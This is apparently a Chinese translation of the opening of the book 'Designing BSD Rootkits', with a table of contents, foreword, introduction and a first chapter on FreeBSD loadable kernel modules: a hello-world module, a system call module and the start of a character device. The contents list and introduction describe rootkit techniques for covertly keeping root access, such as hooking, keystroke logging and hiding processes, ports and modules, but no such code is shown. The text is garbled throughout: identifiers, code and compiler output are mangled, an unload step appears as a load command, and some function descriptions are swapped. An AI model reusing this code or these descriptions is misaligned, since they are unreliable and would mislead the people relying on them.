



# 设计 BSD Rootkits：内核黑客入门指南

作者：Joseph Kong

# 致谢

首先，我特别感谢 Bill Pollock，感谢他对我的信任以及在本书中提供的帮助，并给了我大量的创作控制权。他的许多评审和建议体现在最终结果中（是的，传闻是真的，他编辑起来就像个教官一样严格）。我还要感谢 Elizabeth Campbell，她基本上推翻了整本书（并且始终时候保持乐观，即使在我在完成校对后重写了整个章节时她也是如此）。感谢 Megan Dunchak 承担了校对工作并改进了本书的“风格”，感谢 Riley Hoffman 审核了整份稿件的错误。还要感谢 Patricia Witkin、Leigh Poehler 和 Ellen Har 在营销方面所做的工作。

我还要感谢 John Baldwin，他担任本书的技术审核员，但他超出了正常的职责范围，提供了丰富的建议和见解；其中大部分已成为书中的新章节。

此外，我想感谢我的兄弟校对了了本书的早期草稿，感谢我父亲带我进入计算机世界（他仍是我知道的最强大的黑客），感谢我母亲对我所做的一切（特别是她的耐心，因为我小时候绝对是个大麻烦鬼）。

最后但同样重要的是，我要感谢开源软件/黑客社区的创新、创造力以及分享意愿。

John Baldwin 前言 xiii

# 引言 xv

- 什么是 Rootkit？............................................................................... xvi
- 为什么选择 FreeBSD？................................................................................................ xvi
- 本书的目标 ................................................................................ xvi
- 谁应该读这本书？...................................................................... xvi
- 内容概览..................................................................................... xvii
- 本书使用的惯例.................................................................................. xvii
- 结语................................................................................... xvii

# 1 可加载内核模块 1

- 1.1 模块事件处理器............................................................... 2
- 1.2 `DECLARE_MODULE` 宏.................................................................. 3
- 1.3 "Hello, world!"............................................................................... 4
- 1.4 系统调用模块............................................................................... 6

    - 1.4.1 系统调用函数................................................................ 6
    - 1.4.2 `sysent` 结构....................................................................... 7
    - 1.4.3 偏移值.............................................................................. 8
    - 1.4.4 `SYSCALL_MODULE` 宏........................................................ 8
    - 1.4.5 示例........................................................................................... 9
    - 1.4.6 `modfind` 函数....................................................................... 10
    - 1.4.7 `modstat` 函数...................................................................... 10
    - 1.4.8 `syscall` 函数....................................................................... 11
    - 1.4.9 执行系统调用.............................................................. 11
    - 1.4.10 不使用 C 代码执行系统调用............... 12

- 1.5 内核/用户空间切换.......................................................... 12

    - 1.5.1 `copyin` 和 `copyinstr` 函数.................................................. 13
    - 1.5.2 `copyout` 函数....................................................................... 13
    - 1.5.3 `copystr` 函数....................................................................... 13

- 1.6 字符设备模块..................................................... 14

    - 1.6.1 `cdevsw` 结构....................................................................... 14
    - 1.6.2 字符设备函数.............................................................. 15
    - 1.6.3 设备注册例程.................................................. 16
    - 1.6.4 示例........................................................................................... 17
    - 1.6.5 测试字符设备....................................................... 19

- 1.7 链接文件与模块.................................................................. 21
- 1.8 结语............................................................................... 22

# 2 钩钩 (HOOKING) 23

- 2.1 钩取系统调用 ................................................................ 24
- 2.2 按键记录 ....................................................................... 26
- 2.3 内核进程追踪 ................................................................ 28
- 2.4 常见系统调用钩 ................................................................ 29
- 2.5 通信协议 ................................................................ 30

    - 2.5.1 `protosw` 结构 ................................................ 31
    - 2.5.2 `inetsw[]` 切换表 ............................................... 32
    - 2.5.3 `mbuf` 结构 ............................................................ 32

- 2.6 钩取通信协议 ................................................ 32
- 2.7 结语 ................................................................ 35

# 3 直接内核对象操作 (DKOM) 37

- 3.1 内核队列数据结构 ........................................ 38

    - 3.1.1 `LIST_HEAD` 宏 ................................................ 38
    - 3.1.2 `LIST_HEAD_INITIALIZER` 宏 ................................ 38
    - 3.1.3 `LIST_ENTRY` 宏 ................................................ 39
    - 3.1.4 `LIST_FOREACH` 宏 ............................................ 39
    - 3.1.5 `LIST_REMOVE` 宏 ............................................ 39

- 3.2 同步问题 ................................................ 40

    - 3.2.1 `mtx_lock` 函数 ................................................ 40
    - 3.2.2 `mtx_unlock` 函数 ............................................ 40
    - 3.2.3 `sx_lock` 和 `sx_lock` 函数 ......................... 41
    - 3.2.4 `sx_unlock` 和 `sx_unlock` 函数 ....................... 41

- 3.3 隐藏运行中的进程 ............................................ 41

    - 3.3.1 `proc` 结构 ................................................... 41
    - 3.3.2 `allproc` 列表 ....................................................... 42
    - 3.3.3 示例 ................................................................ 43

- 3.4 隐藏运行中的进程重做 ........................................ 46

    - 3.4.1 `hashinitt` 函数 ............................................... 47
    - 3.4.2 `pidashhtbl` ............................................................ 47
    - 3.4.3 `pfind` 函数 ................................................ 48
    - 3.4.4 示例 ................................................................ 48

- 3.5 使用 DKOM 隐藏 ...................................... 51
- 3.6 隐藏打开的基于 TCP 的端口 ................... 52

    - 3.6.1 `inpcb` 结构 ................................................ 52
    - 3.6.2 `tcbinfo.listhead` 列表 ................................ 53
    - 3.6.3 示例 ................................................................ 54

- 3.7 破坏内核数据 ................................................ 56
- 3.8 结语 ................................................ 57

# 4 内核对象钩取 59

- 4.1 钩取字符设备 ................... 59

    - 4.1.1 `cdev_list` 和 `cdev_priv` 结构 ................... 60
    - 4.1.2 `devmtx` 互斥锁 ................................................ 60
    - 4.1.3 示例 ................................................................ 60

- 4.2 结语 ................................................ 62

# 5 运行时内核内存补丁 63

- 5.1 内核数据访问库 ................................................ 63

    - 5.1.1 `kv_openfiles` 函数 ........................................ 64
    - 5.1.2 `kv_nlist` 函数 ................................................... 64
    - 5.1.3 `kv_geterr` 函数 ................................................ 65
    - 5.1.4 `kv_read` 函数 ..................................................... 65
    - 5.1.5 `kv_write` 函数 ............................................... 65
    - 5.1.6 `kv_close` 函数 ................................................ 66

- 5.2 补丁代码字节 ............................................ 66
- 5.3 理解 x86 Call语句 ................... 70

    - 5.3.1 补丁 Call语句 ........................................ 70

- 5.4 分配内核内存 ................................................ 73

    - 5.4.1 `malloc` 函数 ................................................. 73
    - 5.4.2 `MALLOC` 宏 ................................................... 74
    - 5.4.3 `free` 函数 ................................................. 74
    - 5.4.4 `FREE` 宏 ................................................. 74
    - 5.4.5 示例 ................................................................. 75

- 5.5 从用户空间分配内核内存 ................... 77


# 目录

- 5.5.1 示例
- 5.6 内联函数钩取
    - 5.6.1 示例
    - 5.6.2 注意事项
- 5.7 钩取系统调用
- 5.8 结语

# 6 整合一切 (PUTTING IT TOGETHER)

- 6.1 HIDS 是什么
- 6.2 绕过 HIDS
- 6.3 重定向
- 6.4 文件隐藏
- 6.5 隐藏 KLD
    - 6.5.1 linker_files 列表
    - 6.5.2 linker_file 结构
    - 6.5.3 modules 列表
    - 6.5.4 module 结构
    - 6.5.5 示例
- 6.6 防止访问、修改和时间更新
    - 6.6.1 时间更新
    - 6.6.2 示例
- 6.7 概念证明：伪造 Tripwire
- 6.8 结语

# 7 检测 (DETECTION)

- 7.1 检测系统调用钩
    - 7.1.1 寻找系统调用钩
- 7.2 检测 DKOM
    - 7.2.1 寻找隐藏进程
    - 7.2.2 寻找隐藏端口
- 7.3 检测运行时内存补丁
    - 7.3.1 寻找内联函数钩
    - 7.3.2 寻找代码字节补丁
- 7.4 结语

# 前言 (FOREWORD)

在过去的几年里，我一直在 FreeBSD 内核各个部分工作。期间，我的重点一直是让 FreeBSD 变得更加健壮。这通常意味着保持现有稳定性的同时添加新功能，或者通过修复漏洞和设计缺陷来提高稳定性。在从事 FreeBSD 工作之前，我曾担任过几个网络的管理员；我的重点是为用户提供所需的服务，同时保护网络免受恶意行为的影响。因此，在安全方面，我一直处于防守的一方。

Joseph Kong 在《设计 BSD Rootkits》中为我们提供了一个引人入胜的视角。他列举了构建 rootkit 的多种工具，解释了每个工具背后的概念，并为许多工具提供了工作示例。此外，他还研究了检测 rootkit 的方法。破坏一个运行系统与构建系统需要许多相同的技能和技术。例如，这两个任务都需要对稳定性的关注。降低系统稳定性的 rootkit 可能会在系统崩溃时引起管理员的注意。同样，系统构建者必须构建一个能够最小化因系统崩溃导致的停机和数据丢失的系统。根内核还面临一些相当棘手的问题，其产生的解决方案对系统构建者来说具有启发性（有时也很有趣）。

最后，设计 BSD 根内核对于系统构建者来说也是一次大开眼的经历。人们总可以从他人的视角中学到很多东西。我曾数次看到一个全新的视角解决了一个 Bug，因为一直与 Bug 斗争的开发者对代码太熟悉了。同样，系统设计者和构建者并不总是意识到根内核可能被用来改变系统的行为。只需学习根内核使用的一些方法，就能改变他们设计和构建系统的方式。

我确实发现这本书既引人入胜又内容丰富，我相信你作为读者也会有同感。

John Baldwin
FreeBSD 内核开发者
亚特兰大

# 引言


欢迎阅读《设计 BSD 根内核》！本书将为你介绍在 FreeBSD 操作系统下编程和开发内核态根内核的基础知识。通过“示例学习”法，我将详细介绍根内核可以采用的不同技术，以便你学习根内核代码在最简单层次是如何构成的。需要注意的是，本书并不包含或诊断任何“全功能”的根内核代码。事实上，本书的大部分内容集中于如何使用某种技术，而不是对其做什么。

请注意，本书与编写漏洞（exploit writing）或如何获取系统的 root 权限无关；它关乎在成功侵入后如何长期保持 root 权限。

## 什么是根内核（Rootkit）？

虽然对根内核的定义有很多种，但对于本书而言，*根内核*是一组允许人在不泄露自己存在的情况下控制主操作系统的某些方面的代码。从根本上说，这就是根内核的本质——规避终端用户的感知。

简单来说，根内核是一个允许用户维持“root”权限的“工具箱”（kit）。

## 为什么选择 FreeBSD？

FreeBSD 是一个先进的开源操作系统；通过 FreeBSD，你对内核源码拥有完全、不受限制的访问权限，这使得学习系统编程变得更容易——而这本质正是你通过这本书要做的事情。

## 本书的目标

本书的首要目标是让你接触根内核及其编写方法。当你读完这本书时，你应该在“理论上”能够即时重写整个操作系统。你还应该理解根内核检测和移除背后的理论与实践。

本书的次要目标是为你提供对 FreeBSD 内核部分的实用、动手的观察，远期目标是激发你去探索并黑客攻击其余部分。毕竟，亲自动手总是学习的最好方式。

## 谁应该读这本书？

本书面向对入门内核黑客攻击感兴趣的程序员。因此，不要求也不预期你有编写内核代码的经验。

为了从书中获得最大的收益，你应该熟练掌握 C 语言（即你理解指针）以及 x86 汇编（AT&T 语法）。你还需要对操作系统理论有良好的理解（即你知道进程和线程的区别）。

## 目录概述

本书（非正式）分为三个部分。第一部分（第 1 章）本质上是一场内核黑客攻击的极速之旅，旨在让新手进入状态。下一部分（第 2 章到第 6 章）涵盖了当前流行的根内核技术范围（即你在“野外”会发现的技术）；而最后一部分（第 7 章）侧重于根内核的检测和移除。

## 本书使用的规范

在全书中，除非另有特别说明，我在代码列表中使用了粗体字体来表示我输入的命令或其他文本。

## 结语

尽管本书聚焦于 FreeBSD 操作系统，但大部分（如果不是全部）概念都可以应用于其他操作系统，例如 Linux 或 Windows。事实上，我在书中学习一半的技术正是在这些系统上学到的。

> 注意：书中的所有代码示例都是在运行 FreeBSD 6.0-STABLE 的 IA-32 架构计算机上测试过的。

# 1 可加载内核模块


将代码引入运行中内核的最简单方法是通过可加载内核模块（LKM），它是一种可以在启动后加载和卸载的内核子系统，允许系统管理员从运行中的系统中动态添加和删除功能。这使得 LKM 成为内核态根内核的理想平台。事实上，绝大多数现代根内核仅仅是 LKM。

> 注意：在 FreeBSD 3.0 中，内核模块子系统发生了重大变化，LKM 设施被重命名为动态内核链接器（KLD）设施。随后，术语 KLD 常用于描述 FreeBSD 下的 LKM。

在本章中，我们将为新内核黑客的程序员讨论 FreeBSD 内的 LKM（即 KLD）编程。

> 注意：在全书中，`device driver`、`KLD`、`LKM`、`loadable module` 和 `module` 等术语均通用。

## 1.1 模块事件处理器

每当 KLD 加载或卸载到内核时，都会调用一个名为模块事件处理器（module event handler）的函数。该函数处理 KLD 的初始化和关机程序。每个 KLD 必须包含一个事件处理器¹。事件处理函数的原型定义在 `<sys/module.h>` 头文件中如下：

```c
typedef int (*modeventype_t)(module_t, int *modeventype_t /*, void *);
```

其中 `module_t` 是指向模块结构的指针，`modeventype_t` 在 `<sys/module.h>` 头文件中定义如下：

```c
typedef enum modeventype {
    MOD_LOAD,         /* 模块加载时设置。 */
    MOD_UNLOAD,       /* 模块卸载时设置。 */
    MOD_SHUTDOWN,     /* 关机时设置。 */
    MOD_QUIESCE,      /* 在静默时设置。 */
} modeventype_t;
```

这里是一个事件处理器函数的示例：

```c
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;

    switch (cmd) {
        case MOD_LOAD:
            printf("Hello, world!\n");
            break;
        case MOD_UNLOAD:
            printf("Good-bye, cruel world!\n");
            break;
        default:
            error = EOPNOTSUPP;
            break;
    }

    return(error);
}
```

> ¹ 实际上，这并不完全正确。你可以拥有一个只包含 sysctl 的 KLD。如果你愿意，也可以省去模块处理器，直接使用 `SYSINT` 和 `SYSUNINIT` 来注册分别在加载和卸载时调用的函数。然而，你无法在这些情况下指示失败。

该函数在模块加载时打印 "Hello, world!"，在卸载时打印 "Good-bye, cruel world!"，并在关机和静默时返回错误（`EOPNOTSUPP`）²。

> ² `EOPNOTSUPP` 代表错误：不支持的操作。

## 1.2 DECLARE_MODULE 宏

当 KLD 被加载时（通过第 1.3 节介绍的 `kload(8)` 命令），它必须与内核链接并注册自己。这可以通过调用 `DECLARE_MODULE` 宏轻松实现，它在 `<sys/module.h>` 头文件中定义如下：

```c
#define DECLARE_MODULE(name, data, sub, order) \\
    MODULE_METADATA(md, MDT_MODULE, &data, #name); \\
    SYSINIT(name##sub, sub, order, module_register_init, &data) \\
    struct _hack
```

各部分的简要描述：

- `name` 指定通用模块名称，以字符串形式传递。
- `data` 参数指定官方模块名称和事件处理器函数，以模块数据结构传递。`struct modulated` 在 `<sys/module.h>` 头文件中定义如下：

```c
typed struct modulated {
    const char *name;          /* 模块名称 */
    meventhandler_t evanhand;  /* 事件处理器 */
    void *priv;                 /* 额外数据 */
} modulatedata_t;
```

- `sub` 指定系统启动接口，标识模块类型。该参数的有效项可以在 `<sys/kernel.h>` 头文件的 `sysinit_sub` 枚举列表中找到。对于我们的目的，我们总是将此参数设置为 `SI_SUB_DRIVERS`，这在注册设备驱动程序时使用。
- `order` 指定 KLD 在子系统中的初始化顺序。你可以在 `<sys/kernel.h>` 头文件的 `sysinit_elem_order` 枚举列表中找到该参数的有效项。对于我们的目的，我们总是将此参数设置为 `SI_ORDER_MIDDLE`，将在模块的中间位置初始化 KLD。

## 1.3 “Hello, world!”

你现在已经掌握足够的知识来编写第一个 KLD。列表 1-1 是一个完整的“Hello, world!”模块。

```c
#include <sys/param.h>
#include <sys/module.h>
#include <sys/kernel.h>
#include <sys/system.h>

/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;
    switch (cmd) {
        case MOD_LOAD:
            printf("Hello, world!\n");
            break;
        case MOD_UNLOAD:
            printf("Good-bye, cruel world!\n");
            break;
        default:
            error = EOPNOTSUPP;
            break;
    }
    return(error);
}

/* DECLARE_MODULE 的第二个参数。 */
static moduledata_t hello_mod = {
    "hello",
    load,
    /* 模块名称 */
    /* 事件处理器 */
    NULL /* 额外数据 */
};
DECLARE_MODULE(hello, hello_mod, SI_SUB_DRIVERS, SI_ORDER_MIDDLE);
```

列表 1-1: hello.c

你可以看到，这个模块只是第 1.1 节示例事件处理器函数与填充好的 `DECLARE_MODULE` 宏的组合。要编译此模块，可以使用系统的 Makefile `b.kmod.mk`。列表 1-2 显示了 hello.c 的完整 Makefile。

> ⁵ Makefile 用于通过描述给定输出的依赖关系和构建脚本，简化 `make` 将一个或多个文件从一种形式转换为另一种形式的过程。关于 Makefile 的更多信息，请参阅 `make(1)` 手页。

```make
KMOD= hello # 要构建的 KLD 名称。
SRCS= hello.c # 源文件列表。

.include bsd.kmod.mk
```

列表 1-2: Makefile

> 注意：在本书中，我们将通过在 `KMOD` 和 `SRCS` 中分别填写相应的模块名称和源文件列表来调整 Makefile 以编译每个 KLD。

现在，确保 Makefile 和 hello.c 位于同一目录下，只需输入 `make`，（如果我们没有搞错任何东西）编译就会进行——详细地——并生成一个名为 hello.ko 的可执行文件。


```bash
$ make
Warning: Object directory not changed from original /usr/home/ghost/hello
- -> /usr/src/sys
machine -> /usr/src/sys/i386
cc -02 -pipe -fullroll-loops -march-athlon-mp -fno-strict-aliasing -Werror -D_KERNEL KLD_MODULE -nostdic -I- -I @ -I/../include/altq-I/../include -I/usr/src-finline-limit-8000 -fno-common -mno-align-strings -mprefacked-stack-boundary=2 -mno-mmx -mno-3dwn -mno-sse -mno-sse2 -freestanding-Wall -Wundant-decls -Wnested-exts -Wstrict-prototypes -Wmissing-prototypes -Wpointer-arithith -Winline -Wcast -Wformat-extensions -D_=c99 -C\hello.ldld -d -warn-common -r -d -o hello.ko hello.ld
touch export_symbols
awk -f /sys/config/kmod_sys.awk hello.kld export_symbols | xargs -J objcopy hel.kld
ld -shared -d -warn-common -o hello.ko hello.kld
objcopy --strip-debug hello.ko
$ ls -F
@@ export_symbols hello.kld hello.o
Makefile hello.c hello.ko* machine@
```

你可以如下所示，使用 `kldload(8)` 和 `kndown(8)` 工具加载和卸载 `hello.kld`：

```bash
$ sudo kldload ./hello.ko
Hello, world!
$ sudo kldload hello.ko
Good-bye, cruel world!
```

太棒了——你已成功将代码加载并卸载到运行中的内核中，让我们尝试稍微高级一点。

## 1.4 系统调用模块

系统调用模块仅仅是安装系统调用的 KLD。在操作系统中，系统调用（也称为系统服务请求）是应用程序请求操作系统内核提供服务的机制。

**注意** 在第 2、3 和 6 章中，你将编写既能隐藏现有系统调用又能安装新系统调用的 rootkit。因此，本节将作为入门介绍。

每个系统调用模块都有三个独特的条目：系统调用函数、`sysent` 结构体和偏移量值。

### 1.4.1 系统调用函数

系统调用函数实现了系统调用。其函数原型定义在 `<sys/sysent.h>` 头文件中，如下：

```c
typedef int sy_call_t(struct thread *, void *);
```

其中 `thread *` 指向当前运行的线程，`void *` 指向系统调用的参数结构（如果有）。

这是一个接收字符指针（即字符串）并将其输出到系统控制台的系统调用示例：

```c
struct sc_example_args {
    char *str;
};

static int
sc_example(struct thread *td, void *syscall_args)
{
    struct sc_example_args *uap = (struct sc_example_args *)syscall_args;
    printf("%s\n", uap->str);
    return(0);
}
```

### 1.4.2 sysent 结构体

系统调用通过其在 `<sysent.h>` 中的条目定义：

```c
struct sysent {
    int sy_narg;                  /* 参数数量 */
    void *sy_call;               /* 实现函数 */
    int sy_flags;                /* 标志 */
};
```

这里是系统调用的示例 `sysent`：

```c
static struct sysent sc_example = {
    1,                          /* 参数数量 */
    sc_example                  /* 实现函数 */
};
```

每当安装系统调用时，其 `sysent` 结构都会被放置。有一点值得注意。

**注意** 在本书中，我们将系统调用表称为 `sysent`。

### 1.4.3 偏移量值

偏移量（也称为系统调用号）是一个 0 到 456 之间的唯一整数，分配给每个系统调用以指示其 `sysent` 结构的偏移。

在系统调用模块中，偏移量需要显式声明。通常做法如下：

```c
static int offset = NO_SYSCALL;
```

常量 `NO_SYSCALL` 将 `offset` 设置为 `sysent` 中的下一个元素。

### 1.4.4 SYSCALL_MODULE 宏

回顾第 1.2 节，当 KLD 加载时，它必须与内核链接并使用 `DECLARE_MODULE` 宏来实现。然而，在编写系统调用时，`DECLARE_MODULE` 宏相当不太方便，你很快就会看到。因此，我们使用 `SYSCALL_MODULE` 宏，它定义在 `/sys/sysent.h` 头文件中如下：

```c
#define SYSCALL_MODULE(name, offset, new_sysent, evh, arg) \
static struct syscall_module data name##syscall_mod = { \
    evh, arg, offset, new_sysent, { 0, NULL } \
} \
static moduledata_t name##mod = { \
    #name, \
    syscall_module_handler, \
    &name##syscall_mod \
}; \
DECLARE_MODULE(name, name##mod, SI_SUB_DRIVERS, SI_ORDER_MIDDLE)
```

你可以看到，如果我们使用 `DECLARE_MODULE` 宏，我们必须先设置一个 `syscall_module_data` 和 `moduledata` 结构；幸运的是，`SYSCALL_MODULE` 为我们省去了这些麻烦。

`new_sysent`

这指定完成的 `sysent` 结构，它将作为 `sysent` 结构体指针传递。

`evh`

这指定事件处理函数。

`arg`

这指定传递给事件处理函数的参数。

为了我们的目的，我们将始终将此参数设置为 `NULL`。

### 1.4.5 示例

列表 1-3 是一个完整的系统调用模块。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <sys/kernel.h>
#include <sys/system.h>

/* 系统调用的参数。 */
struct sc_example_args {
    char *str;
};

/* 系统调用函数。 */
static int
sc_example(struct thread *td, void *syscall_args)
{
    struct sc_example_args *uap;
    uap = (struct sc_example_args *)syscall_args;

    printf("%s\n", uap->str);

    return(0);
}

/* 新系统调用的 sysent。 */
static struct sysent sc_example_sysent = {
    1,                  /* 参数数量 */
    sc_example          /* 实现函数 */
};

/* 在 sysent[] 中分配系统调用的偏移量。 */
static int offset = NO_SYSCALL;

/* 加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;

    switch (cmd) {
    case MOD_LOAD:
        uprintf("System call loaded at offset %d.\n", offset);
        break;
    case MOD_UNLOAD:
        uprintf("System call unloaded from offset %d.\n", offset);
        break;
    default:
        error = EOPNOTSUPP;
        break;
    }

    return(error);
}

SYSCALL_MODULE(sc_example, &offset, &sc_example_sysent, load, NULL);
```

- 列表 1-3: sc_example.c

如你所见，该模块仅仅在本节中描述的所有组件的组合，外加上事件处理函数。以下是加载此模块的结果：

```bash
$ sudo kldload ./sc_example.ko
System call loaded at offset 210.
```

到目前为止一切正常。现在，让我们写一个简单的用户空间程序来执行并测试这个新的系统调用。但在之前，需要对 `modfind`、`modstat` 函数进行说明。

### 1.4.6 modfind 函数

`modfind` 函数根据模块名称返回内核模块的 `modid`。

```c
#include <sys/param.h>
#include <sys/module.h>

int
modfind(const char *modname);
```

`Modids` 是用于唯一标识系统中每个已加载模块的整数。

### 1.4.7 modstat 函数

`modstat` 函数根据其 `modid` 返回内核模块的状态。

```c
#include <sys/param.h>
#include <sys/module.h>

int
modstat(int midst, struct module_stat *stat);
```

返回的信息存储在 `stat` 中，这是一个 `module_stat` 结构体，它定义在 `<sys/module.h>` 头文件中，如下：

```c
struct module_stat {
    int version;
    char name[MAXMODNAME];
    int refs;
    int id;
    modspecific_t data;
};
union modspecific {
    int intval;
    u_int uintval;
    long long longval;
    u_long ulongval;
} modspecific_t;
```

### 1.4.8 Syscall 函数

`syscall` 函数通过编号执行系统调用。

```c
#include <sys/syscall.h>
#include <unistd.h>

int
syscall(int number, ...);
```

### 1.4.9 执行系统调用

列表 1-4 是用于执行列表 1-3（命名为 `sc_example`）中系统用的用户空间程序。该程序接受一个传递给 `sc_example` 的命令行参数：

```c
#include <stdio.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/module.h>

int
main(int argc, char *argv[]) {
    int syscall_num;
    struct module_stat stat;

    if (argc != 2) {
        printf("Usage:%s <string>\n", argv[0]);
        exit(0);
    }
    /* 确定 sc_example 的偏移量。 */
    stat.version = sizeof(stat);
    modstat(modfind("sc_example"), &stat);
    syscall_num = stat.data.intval;

    /* 调用 sc_example。 */
    return(syscall(syscall_num, argv[1]));
}
```

- 列表 1-4: interface.c

我们调用 ① `modfind` 和 `modstat` 来确定 `sc_example` 的偏移量。该值连同命令行参数传递给 ② `syscall`，从而执行了 `sc_example`。以下是示例输出：

```bash
$ ./interface "Hello, kernel!"
$ dmesg | tail 1
```

### 1.4.10 无 C 代码执行系统调用

虽然编写用户空间程序来执行系统调用是“正确”的方法，但当你只想测试系统调用模块时，先写一个程序非常麻烦。在不写用户空间程序的情况下执行系统调用，我是这样做的：

```bash
$ sudo kload ./sc_example.ko
System call loaded at offset 210.
$ perl -e '$str = "Hello, kernel!"'; -e 'syscall(210,$str);'
$ dmesg | tail 1
```

前面的演示表明，通过利用 Perl 的命令行执行（即 `-e` 选项）、其 `syscall` 函数以及已知系统调用偏移量的事实，你可以快速测试任何系统调用模块。需要注意的是，Perl 的 `syscall` 函数不能使用字符串字面量，这就是为什么使用变量 (`$str`) 将字符串传递给 `sc_example`。

## 内核/用户空间切换

我将描述一组可以在内核空间拷贝、操作和覆盖存储在用户空间的数据的核心函数。我们在书中将使用这些函数。

### 1.5.1 copyin 和 copystr 函数

`copyin` 和 `copystr` 函数允许你从用户空间向内核空间拷贝连续区域。

```c
#include <sys/types.h>
#include <sys/system.h>

int
copyin(const void *uaddr, void *kaddr, size_t len);

int
copystr(const void *uaddr, void *kaddr, size_t len, size_t *done);
```

`copyin` 函数从用户空间地址 `uaddr` 拷贝 `len` 字节的数据到内核空间地址。`copystr` 函数类似，但它拷贝一个以空结尾的字符串，最大长度为 `len` 字节，实际字节数返回在 `done` 中。⁶

### 1.5.2 copyout 函数

`copyout` 函数类似，但它拷贝一个以空结尾的字符串，最大长度为 `len` 字节，实际字节数返回在 `done` 中。

```c
#include <sys/types.h>
#include <sys/system.h>

int
copyout(const void *kaddr, void *uaddr, size_t len);
```

### 1.5.3 copystr 函数

`copystr` 函数与 `copyin` 类似，区别是从内核空间拷贝到另一个空间。

```c
#include <sys/types.h>
#include <sys/system.h>

int
copystr(const void *kfaddr, void *kdaddr, size_t len, size_t *done);
```

> ⁶ 在列表 1-3 中，诚然承认系统调用函数应该先调用 `copyin` 拷贝字符串然后打印它。目前，它只是一个示例，不是真正的系统调用。

## 1.6 字符设备模块

字符设备模块是创建或安装字符设备的 KLD。在 FreeBSD 中，字符设备是访问特定设备的接口。例如，数据通过 `/dev/console` 从系统控制台读写。

**注意** 在第 4 章中，你将编写攻击系统中现有字符设备的 rootkit。因此，本节作为入门介绍。

每个字符设备三个三个项目：`cdevsw` 结构体、字符设备函数和注册例程。我们将逐一讨论。

### 1.6.1 cdevsw 结构体

字符设备通过其在字符设备切换表 `struct cdevsw` 中的项定义，该结构在 `<sys/conf.h>` 头文件中如下：


## 字符设备驱动程序

```
struct cdevsw {
    int                 d_version;
    u_int               d_flags;
    const char         *d_name;
    d_open_t            *d_open;
    d_fdopen_t          *d_fdopen;
    d_close_t           *d_close;
    d_read_t            *d_read;
    d_write_t           *d_write;
    ioctl_t             *d_ioctl;
    d_poll_t            *d_poll;
    d_mmap_t            *d_mmap;
    d_strategy_t        *d_strategy;
    dumper_t           *d_dump;
    d_kqfilter_t        *d_kqfilter;
    d_purge_t          *d_purge;
    d_spare2_t          *d_spare2;
    uid_t               *d_uid;
    gid_t               *d_gid;
    mode_t              *d_mode;
    const char         *d_kind;

    /* 这些字段不应被驱动程序修改 */
    LIST_ENTRY(cdevsw)  d_list;
    LIST_HEAD(cdevsw)   d_devs;
    int                 d_spare3;
    struct cdevsw       *d_giantrick;
};
```

表 1-1 提供了最相关点的简要描述。

### 表 1-1: 字符设备驱动程序的入口点

| 入口点 | 描述 |
|---|---|
| `d_open` | 为 I/O 操作打开设备 |
| `d_close` | 关闭设备 |
| `d_read` | 从设备读取数据 |
| `d_write` | 向设备写入数据 |
| `d_ioctl` | 执行读或写以外的操作 |
| `d_poll` | 轮询设备以检查是否有数据可读或是否有空间可写 |

这是一个用于简单的读/写设备模块的 `cdevsw` 结构示例：

```
static struct cdevsw cd_example_cdevsw = {
    .d_version = D_VERSION,
    .d_open = open,
    .d_close = close,
    .d_read = read,
    .d_write = write,
    .d_name = "cd_example"
};
```

注意，我没有定义每一个入口点，也没有填充每一个属性。这是完全可以的。对于每个留为空的入口点，该操作将被视为不支持。例如，在创建一个只写设备时，你将不会声明该入口点。

尽管如此，每个 `cdevsw` 结构中都必须定义两个元素：`d_version`（指示驱动程序支持的 FreeBSD 版本）和 `d_name`（指定设备名称）。

> 注意：常量 `D_VERSION` 定义在 `<sys/conf.h>` 头文件中，其中还包含其他版本号。

## 1.6.2 字符设备函数

对于字符设备模块 `cdevsw` 结构中定义的每一个入口点，你都必须实现一个对应的函数。每个入口点的函数原型定义在 `<sys/conf.h>` 头文件中。以下是写入口点的示例实现。

```
/* Function prototype. */
d_write_t write;

int
write(struct cdev *dev, struct uio *uio, int iflag)
{
    int error = 0;

    error = copystr(uio->uio_iov_base, &buf, 512, &len);
    if (error != 0)
        uprintf("Write to \"cd_example\" failed.\n");

    return(error);
}
```

如你所见，此函数简单地调用 `copystr` 从用户空间拷贝字符串并将其存储在内核空间的缓冲区 `buf` 中。

注意：在 1.6.4 节中我将展示并解释更多的入口点实现。

## 1.6.3 设备注册例程

设备注册例程在 `/dev` 上创建或安装字符设备，并将其注册到设备文件系统 (DEVFS)。你可以通过在事件处理函数中如下调用 `make_dev` 函数来实现：

```
static struct cdev *sdev;

/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;

    switch (cmd) {
    case MOD_DEV:
        sdev = make_dev(&cd_example_cdevsw, 0, UID_ROOT, GID_WHEEL, "cd example");
        uprintf("Character device loaded\n");
        break;

    case MOD_UNLOAD:
        destroy_dev(sdev);
        uprintf("Character device unloaded\n");
        break;

    default:
        error = EOPNOTSUPP;
        break;
    }

    return(error);
}
```

此示例函数将在模块加载时通过调用 `make_dev` 函数来注册字符设备 `cd_example`，该函数将在 `/dev` 上创建一个 `cd_example` 设备节点。此外，该函数将在模块卸载时通过调用 `destroy_dev` 函数来注销该字符设备，该函数的参数是先前的 `make_dev` 调用返回的 `cdev` 结构。

## 1.6.4 示例

列表 1-5 显示了一个完整的字符设备模块（基于 Rajesh Vaidheeswaran 的 `cdev.c`），该模块安装了一个简单的读/写字符设备。该设备对内核内存区域进行操作，从参数读取并向其写入单个字符字符串。

```
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/kernel.h>
#include <sys/system.h>
#include <sys/conf.h>
#include <sys/uio.h>
```

```
/* Function prototypes. */
d_open_t      open;
d_close_t    close;
d_read_t     read;
d_write_t    write;
```

```
